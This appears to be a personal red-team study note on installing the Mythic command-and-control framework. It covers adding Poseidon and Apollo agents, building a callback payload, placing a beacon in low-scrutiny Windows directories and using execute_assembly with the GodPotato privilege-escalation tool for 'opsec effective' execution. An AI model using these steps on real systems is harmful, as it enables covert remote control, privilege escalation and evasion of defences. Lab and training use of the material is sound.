 
Mythic is a C2 server, used to deploy and control agents often used for AV evasion or persistence. 

## Installing Mythic

```bash
# Install docker
sudo apt update -y
sudo apt install docker -y
sudo apt install docker.io -y
sudo apt install docker-compose -y

# Git clone
git clone https://github.com/its-a-feature/Mythic
cd Mythic

# We need to make the binary, from the makefile in the Mythic directory.
sudo make
```

Now we can run Mythic for the first time
```bash
# Run Mythic for the first time
sudo -E ./mythic-cli start

# The config file is stored here if we want to modify it
vi Mythic/.env

# We need to install agents
# We'll start with Poseidon, used for Mac and Linux
sudo ./mythic-cli install github https://github.com/MythicAgents/Poseidon

# Install Apollo for use on Windows
sudo ./mythic-cli install github https://github.com/MythicAgents/Apollo

# We'll also need to install the http profile.
sudo ./mythic-cli install github https://github.com/MythicC2Profiles/http
```
The 'installed services' tab is important, we can see what all is installed.
![[Pasted image 20250526215523.png]]
## Web Interface
This is where can manage a lot of things. It's accessed at
`https://127.0.0.1:7443` by default
We'll find our admin credentials in the .env file
```bash
cat Mythic/.env | grep -i 'user'
cat Mythic/.env | grep -i 'password'

# If we wanted to, we could modify these, then restart Mythic
sudo ./mythic-cli restart
```

We can click 'Create Your First Payload'
![[Pasted image 20250526215029.png]]
We can leave most of this stuff unchanged, except maybe statically compile the payload.
Additionally, changing the callback details is necessary

![[Pasted image 20250526215701.png]]
We should be able to use our IP here, and port 80 is the default port. Even though we're not using HTTP/S, the traffic itself will be encrypted.
![[Pasted image 20250526215905.png]]
We can see our page on the 'payloads' page
![[Pasted image 20250526220223.png]]

We can just download and execute it. My first ever C2 beacon callback.
![[Pasted image 20250526224612.png]]


## Windows Beacon
Run it in a good directory (C:\Windows\Tasks), (C:\Users\Public). 

```powershell
Start-Process beacon.exe
```


## Register Assembly
We can put dotnet binaries into the agent. This is an opsec effective way of executing binares

N
```
register_assembly GodPotato-NET4.exe
execute_assembly -Assembly GodPotato-NET4.exe -Arguments "-cmd 'c:\users\public\taskmanager.exe'"
```

## References
https://redsiege.com/blog/2023/06/introduction-to-mythic-c2/
